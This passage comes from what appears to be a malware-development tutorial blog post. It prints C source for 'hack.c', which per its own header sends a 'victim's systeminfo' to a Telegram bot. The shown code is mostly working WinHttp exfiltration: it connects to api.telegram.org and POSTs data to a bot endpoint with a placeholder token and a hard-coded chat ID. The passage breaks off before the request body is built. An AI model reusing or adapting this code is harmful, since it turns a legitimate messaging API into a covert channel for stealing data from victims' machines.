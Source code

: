 ```cpp
  // set the headers
  if (!WinHttpSendRequest(hRequest, 
  L"Content-Type: application/x-www-form-urlencoded\r\n", -1, 
  requestBody, strlen(requestBody), strlen(requestBody), 0)) {
    fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully sent to tg bot :)\n");
  return 0;
}
```

So the full source code is looks like this - `hack.c`:    

```cpp
/*
 * hack.c
 * sending victim's systeminfo via 
 * legit URL: Telegram Bot API
 * author @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

// send data to Telegram channel using winhttp
int sendToTgBot(const char* message) {
  const char* chatId = "466662506";
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"api.telegram.org", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/bot----TOKEN----/sendMessage", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
```